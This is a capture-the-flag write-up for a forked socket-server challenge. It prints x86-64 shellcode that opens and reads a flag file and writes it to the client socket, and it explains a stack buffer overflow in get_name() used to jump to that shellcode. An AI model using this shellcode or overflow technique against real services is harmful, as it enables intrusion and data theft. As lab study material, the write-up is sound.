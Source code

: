 # server

This challenge is very similar to the [Only Read Write](../onlyreadwrite/README.md) challenge. The only difference is that the binary now is a server that listens on a port and forks a child process that reads in a buffer. Then we have to write not on stdout but on the socket file descriptor.

```x86asm
    mov r12, rdi
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x67616c662f2e
    xor [rsp], rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
    /* call read(fd_open, 'rsp', 0x64) */
    push rax
    xor eax, eax /* SYS_read */
    pop rdi
    push 0x64
    pop rdx
    mov rsi, rsp
    syscall
    /* write(fd_socket, buf='rsp', n=0x64) */
    push r12
    pop rdi
    push 0x64
    pop rdx
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall
```

In this case I used R12 to store the socket file descriptor. The shellcode is the same as the previous challenge, except for the write part were we put R12 in RDI, and then we call write.

The process forked from the server executes this function

```c
void prog(int socket_fd) {
  size_t n;
  char name [1008];

  get_name(socket_fd, name);
  write(socket_fd, "Hello Mr.", 9);
  n = strlen(name);
  write(socket_fd, name, n);
  return;
}
```

get_name() is reading 4096 bytes in a buffer of 1008 bytes, so we have a buffer overflow. We overflow the buffer with the shellcode and modify the return address to point to it. We know the address of the shellcode because it is in the .bss section and the binary is not PIE.

The complete exploit is in [script.py](script.py).
